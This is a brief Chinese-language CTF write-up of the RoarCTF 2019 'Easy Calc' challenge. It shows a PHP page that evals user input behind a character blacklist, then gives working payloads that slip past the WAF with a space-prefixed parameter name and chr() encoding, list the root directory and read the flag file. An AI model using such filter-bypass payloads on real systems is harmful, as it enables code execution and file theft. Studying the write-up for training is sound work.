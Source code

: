 ## [RoarCTF 2019]Easy Calc

----

![image-20240604100606279](https://gitee.com/bx33661/image/raw/master/path/image-20240604100606279.png)

我们了解到这道题存在WAF！

```javascript
$('#calc').submit(function(){
       $.ajax({ //采用ajax异步
            url:"calc.php?num="+encodeURIComponent($("#content").val()), //url为calc.php?num=后面处理的数据
            type:'GET',													 //传输类型为get
            success:function(data){										 //成功响应
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){											//错误响应
                alert("这啥?算不来!");
            }
        })
        return false;
    })

```

我们发现是calc.php这个在处理我们的数据，我们尝试访问它，成功进入页面：

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

进行传参发现WAF会拦截字母的传入，因此我们要想办法绕过

> `/calc?%20num=******`
>
> `/calc?%20num=var_dump(scandir(chr(47)))`
>
> scandir:列出目录

```html
num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

最终得到flag

